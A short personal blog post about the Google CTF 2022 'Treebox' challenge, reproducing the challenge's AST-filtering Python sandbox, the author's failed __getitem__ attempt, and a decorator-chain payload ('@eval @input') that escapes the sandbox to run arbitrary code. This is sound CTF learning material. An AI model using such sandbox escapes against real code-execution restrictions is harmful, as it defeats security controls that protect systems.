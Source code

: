 ```yaml
---
title: "What I learned From Google Ctf"
date: 2022-07-03T21:02:55-05:00
draft: false
---
```


## Treebox

The challenge description was:
````
I think I finally got Python sandboxing right.
````

The challenge source code was.

````
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
````
My first instict was to use decorators, but I wasn't sure that would allow me to escape the call AST check. I then looked into the [AST](https://docs.python.org/3/library/ast.html) documentation to see if there was anything useful. I missed that exceptions could call code so I tried to use `__getitem__` to call print.

````
class A:
    def __getitem__(self,item):
        pass

a = A()
a.__getitem__ = print
a["hello"]
````

I ran out of time trying to get my escape to work. Afterwards, I read through writeups and learned that you can use decorators to bypass the sandbox.

````
@eval
@input
class A: 0
````

This example uses decorators around a class to allow us to execute arbitrary code. I also enjoyed reading [writeups](https://kileak.github.io/ctf/2022/googlectf22-weather/) for the weather challenge.